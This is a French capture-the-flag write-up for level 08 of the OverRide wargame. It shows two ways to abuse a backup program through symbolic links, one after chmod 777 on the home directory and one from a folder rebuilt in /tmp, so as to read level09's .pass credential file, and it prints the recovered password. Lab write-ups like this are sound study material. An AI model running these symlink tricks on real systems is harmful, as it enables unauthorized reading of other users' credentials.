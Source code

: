 # Level 08

## First solution

### Protections

![](Ressources/protections.png)

### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presence du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Second solution

Au lieu de chmod le home on peut recreer le dossier backups dans /tmp/

Creer un dossier sur lequel on va link le home du level09

Executer le binaire depuis le dossier /tmp/ avec comme parametre le .pass du dossier link sur le home


```
mkdir -p /tmp/backups/link/
ln -s /home/users/level09 /tmp/link
cd /tmp/
~/level08 link/.pass

cat /tmp/backups/link/.pass
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
